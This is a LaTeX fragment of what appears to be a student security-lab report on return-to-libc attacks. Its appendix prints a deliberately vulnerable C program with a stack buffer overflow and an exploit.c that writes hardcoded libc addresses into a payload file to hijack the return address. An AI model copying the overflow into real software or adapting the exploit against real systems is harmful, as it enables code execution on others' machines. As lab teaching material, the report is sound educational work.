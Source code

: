 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{StackGuard}
Similar to the buffer overflow lab, the StackGuard feature introduces a canary value which checks whether the return address has been modified. As such, the program will terminate with an error ``stack smashing detected''.
\newpage
\section{Appendix}
\label{App}
\subsection{Return to LibC: \texttt{retlib.c}}
\begin{verbatim}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (FILE *badfile)
{
    char buffer[12];
    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 40, badfile);

    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;
    badfile = fopen("./badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");

    fclose(badfile);
    return 1;
}
\end{verbatim}
\newpage
\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{verbatim}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile","w");

/* Need to determine the addresses */

    *(long *) &buf[32] = 0xb7f80fb8;
    *(long *) &buf[24] = 0xb7e5f430;
    *(long *) &buf[28] = 0xb7e52fb0;

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}

\end{verbatim}

\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		\textbf{Race Condition Vulnerability\\}		
		\vfill
	\end{center}
\end{titlepage}
\end{document}
